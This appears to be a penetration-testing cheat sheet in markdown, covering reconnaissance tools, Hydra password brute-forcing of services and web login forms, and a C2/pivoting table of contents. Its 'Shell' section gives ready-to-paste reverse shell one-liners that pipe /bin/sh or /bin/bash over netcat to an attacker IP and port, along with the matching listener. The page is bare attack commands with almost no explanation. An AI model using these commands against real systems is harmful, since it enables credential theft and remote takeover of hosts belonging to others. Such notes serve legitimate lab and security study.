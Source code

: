     - [Chisel](#chisel)
    - [sshutle](#sshutle)
    - [proxy](#proxy)
  - [GIt enumeration](#git-enumeration)
    - [Stabilize and Post Exploit windows](#stabilize-and-post-exploit-windows)
    - [Command and Control](#command-and-control)
      - [Empire (windows) / Starkiller](#empire-windows--starkiller)
      - [Starkiller](#starkiller)


# Net Sec

## passive
- whois
- nslookup -type=?? URL SERVER
- dig SERVER URL TYPE
- shodan.io [check black friday - https://www.shodan.io/]
- 
## active
- interacting
- nmap
- https://www.rapid7.com/db/
- searchsploit
  

## Hydra
- hydra -l username -P wordlist.txt server service
- hydra -l username -P wordlist.txt service://server
- -d = debug
- -v = verbose
- -V = show attempts
- -f = terminate if found
- -t = number threads

- web
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[inside_request]:username=^USER^&password=^PASS^:F=incorrect"** -v
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[request]:[body_request]"** -vV -f
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[request]:username=^USER^&password=^PASS^:F=incorrect"** -v

    - Request: HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy

## Shell
- Reverse:
  - target: 
    - nc <LOCAL-IP> <PORT> -e /bin/bash
    - mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LOCAL-IP> <PORT> >/tmp/f”
  - Ziel: nc -nlvp PORT
